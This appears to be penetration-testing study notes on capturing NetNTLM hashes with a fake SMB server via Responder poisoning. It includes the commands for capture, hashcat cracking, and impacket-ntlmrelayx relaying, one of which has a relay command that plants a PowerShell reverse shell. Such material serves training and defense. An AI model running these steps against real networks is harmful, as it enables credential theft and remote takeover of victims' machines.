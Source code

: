 #### Using Fake SMB Server:
- **Purpose**: Capture users' NetNTLM v1/v2 hashes by creating a fake SMB server.
- **Common Tool**: Responder, an LLMNR, NBT-NS, and MDNS poisoner tool.

#### Responder Functionality:
- **Setup Command**:
  ```
  responder -I <interface name>
  ```
- **Default Behavior**: Finds LLMNR and NBT-NS traffic, responds on behalf of the servers the victim is looking for, and captures their NetNTLM hashes.

#### Example Scenario:
1. **Name Resolution Process**:
   - Check local host file.
   - Check local DNS cache.
   - Query DNS server.
   - Multicast query if no results.
2. **Attack Scenario**:
   - A user mistypes a shared folder name.
   - All name resolutions fail, leading to a multicast query.
   - The attacker's fake SMB server responds to this query, capturing the user's credentials.

#### Setup Example:
- **Command**:
  ```
  sudo responder -I ens33
  ```
These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (/usr/share/responder/logs/). 

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
The NTLMv2 hash was cracked. The password is P@ssword. If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx or Responder MultiRelay.py. 

First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

```
 cat /etc/responder/Responder.conf | grep 'SMB ='
```
Then we execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, and the target machine with the option -t. By default, impacket-ntlmrelayx will dump the SAM database, but we can execute commands by adding the option -c.
```
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
We can create a PowerShell reverse shell using https://www.revshells.com/, set our machine IP address, port, and the option Powershell #3 (Base64).
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'revshell command from revshells.com'
```
Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.
